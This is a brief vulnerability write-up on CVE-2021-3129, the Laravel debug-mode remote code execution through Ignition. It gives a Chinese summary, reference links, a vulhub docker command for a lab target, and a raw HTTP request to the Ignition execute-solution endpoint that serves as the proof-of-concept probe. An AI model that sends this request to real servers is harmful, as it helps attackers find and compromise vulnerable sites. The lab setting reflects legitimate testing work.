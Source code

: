 ## CVE-2021-3129 Laravel <= v8.4.2 debug mode: Remote code execution

### Summary

> Laravel <= 8.4.2 存在远程代码执行漏洞，当Laravel开启了Debug模式时，由于Laravel自带的2.5.2之前的Ignition功能的某些接口和函数存在过滤不严，未经过身份验证的远程攻击者可以发起恶意请求，通过构造恶意Log文件等方式触发phar反序列化，从而造成远程代码执行，控制服务器。

https://www.ambionics.io/blog/laravel-debug-rce

https://xz.aliyun.com/t/9030#toc-3

### Vulnerable Targets

Laravel <= v8.4.2

Ignition <= 2.5.1

`docker run -d -p 13010:80 vulhub/laravel:8.4.2`

### poc

```http
POST /_ignition/execute-solution HTTP/1.1
Host: 192.168.77.37:13010
User-Agent: python-requests/2.26.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 153
Content-Type: application/json

{"solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution", "parameters": {"viewFile": "DOESNOTEXIST", "variableName": "doesnotexist"}}
```

![image-20220209153929606](LaravelDebugModRCE.assets/image-20220209153929606.png)  
